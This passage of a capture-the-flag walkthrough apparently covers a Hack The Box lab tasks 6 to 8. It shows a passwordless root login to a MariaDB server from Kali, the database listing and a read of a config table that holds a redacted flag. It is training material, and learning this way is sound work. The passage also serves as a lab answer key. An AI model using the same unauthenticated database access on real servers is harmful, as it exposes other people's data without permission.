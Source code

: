 
**Task 6**
In SQL, what symbol do we need to end each query with?  
`;`


**Task 7**
There are three databases in this MySQL instance that are common across all MySQL instances. What is the name of the fourth that's unique to this host?
```bash
kali$ mysql -u root -h $TARGET --skip-ssl

MariaDB> SHOW DATABASES
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.388 sec)
```

Answer: `htb`

This means that `information_schema`, `mysql` and `performance_schema` are found on every instance of MySQL

**Task 8**  
Submit root flag  

```sql
MariaDB> use htb

MariaDB [htb]> SHOW TABLES;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.305 sec)

MariaDB [htb]> SELECT * FROM config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | <flag>                           |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0.336 sec)
```

---